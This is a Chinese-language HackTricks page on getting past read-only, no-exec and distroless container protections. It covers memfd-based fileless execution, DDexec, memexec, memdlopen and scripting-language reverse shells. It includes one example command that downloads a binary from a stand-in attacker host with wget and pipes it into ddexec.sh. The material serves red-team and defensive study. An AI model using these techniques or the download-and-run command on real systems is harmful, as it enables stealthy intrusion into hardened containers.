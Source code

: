 # 绕过文件系统保护：只读 / 无执行 / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## 视频

在以下视频中，您可以找到本页面提到的技术的更深入解释：

- [**DEF CON 31 - 探索Linux内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**使用DDexec-ng和内存dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 只读 / 无执行场景

越来越多的Linux机器以**只读（ro）文件系统保护**的方式挂载，特别是在容器中。这是因为运行一个只读文件系统的容器就像在`securitycontext`中设置**`readOnlyRootFilesystem: true`**一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统以ro挂载，**`/dev/shm`**仍然是可写的，因此我们不能在磁盘上写入的说法是错误的。然而，这个文件夹将被**挂载为无执行保护**，因此如果您在这里下载一个二进制文件，您**将无法执行它**。

> [!WARNING]
> 从红队的角度来看，这使得**下载和执行**系统中尚不存在的二进制文件（如后门或枚举器如`kubectl`）变得**复杂**。

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，您可以**执行任何脚本**，只要解释器在机器内部，例如如果`sh`存在，则可以执行**shell脚本**，或者如果安装了`python`，则可以执行**python脚本**。

然而，这并不足以执行您的二进制后门或您可能需要运行的其他二进制工具。

## 内存绕过

如果您想执行一个二进制文件，但文件系统不允许这样做，最好的方法是通过**从内存中执行它**，因为**保护措施不适用于那里**。

### FD + exec系统调用绕过

如果您在机器内部有一些强大的脚本引擎，例如**Python**、**Perl**或**Ruby**，您可以将二进制文件下载到内存中执行，将其存储在内存文件描述符中（`create_memfd`系统调用），这不会受到这些保护的限制，然后调用**`exec`系统调用**，指明**fd作为要执行的文件**。

为此，您可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。您可以传递一个二进制文件，它将生成一个指定语言的脚本，**二进制文件经过压缩和b64编码**，并包含**解码和解压缩它**的指令，使用调用`create_memfd`系统调用创建的**fd**和调用**exec**系统调用来运行它。

> [!WARNING]
> 这在其他脚本语言中不起作用，例如PHP或Node，因为它们没有任何**默认方式从脚本调用原始系统调用**，因此无法调用`create_memfd`来创建**内存fd**以存储二进制文件。
>
> 此外，使用`/dev/shm`中的文件创建**常规fd**将不起作用，因为您将无法运行它，因为**无执行保护**将适用。

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种技术，允许您通过覆盖**`/proc/self/mem`**来**修改您自己进程的内存**。

因此，**控制正在被进程执行的汇编代码**，您可以编写**shellcode**并“变异”进程以**执行任何任意代码**。

> [!TIP]
> **DDexec / EverythingExec**将允许您加载并**执行**您自己的**shellcode**或**任何二进制文件**从**内存**中。
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 中找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 具有类似目的的 [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以允许加载具有依赖关系的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

Distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到诸如 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

> [!WARNING]
> 因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 也是如此。

> [!TIP]
> 使用脚本语言，您可以 **使用语言功能枚举系统**。

如果没有 **`read-only/no-exec`** 保护，您可以利用反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

> [!TIP]
> 然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 中找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

{{#include ../../../banners/hacktricks-training.md}}
